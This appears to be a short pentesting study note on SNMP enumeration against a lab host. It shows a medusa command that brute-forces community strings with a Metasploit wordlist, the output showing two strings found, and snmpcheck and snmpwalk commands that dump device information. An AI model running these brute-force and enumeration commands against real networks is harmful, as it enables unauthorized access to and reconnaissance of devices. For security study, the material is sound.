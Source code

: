 
## Medusa

we can use medusa tool to bruteforce for snmp community strings

```
$ medusa -u user -P  /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt -M snmp -h 192.168.0.110
```

we get the output
```
ACCOUNT CHECK: [snmp] Host: 192.168.0.110 (1 of 1, 0 complete) User: (null) (0 of 1, 1 complete) Password: test (1 of 0 complete)
ACCOUNT FOUND: [snmp] Host: 192.168.0.110 User: (null) Password: test [SUCCESS]
ACCOUNT CHECK: [snmp] Host: 192.168.0.110 (1 of 1, 0 complete) User: (null) (0 of 1, 2 complete) Password: test2 (2 of 0 complete)
ACCOUNT FOUND: [snmp] Host: 192.168.0.110 User: (null) Password: test2 [SUCCESS]
```
we got two strings like from metasploit module output

---

## snmpcheck

after getting a community string we can check with
`snmpcheck` tool

```
snmpcheck -c string ipaddress
```

---

## snmpwalk

if we got any read-only or read-write string we can dump whole data using `snmpwalk`

```
$ snmpwalk -v1 -c test 192.168.0.110 | head -n 10 
iso.3.6.1.2.1.1.1.0 = STRING: "Vyatta VC6.5R1"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.30803
iso.3.6.1.2.1.1.3.0 = Timeticks: (515600) 1:25:56.00
iso.3.6.1.2.1.1.4.0 = STRING: "root"
iso.3.6.1.2.1.1.5.0 = STRING: "vyatta"
iso.3.6.1.2.1.1.6.0 = STRING: "Unknown"
iso.3.6.1.2.1.1.7.0 = INTEGER: 14
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.2.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
```

repace 1 with 2 or 3 for snmpv2,v3
-c for specifying community string

---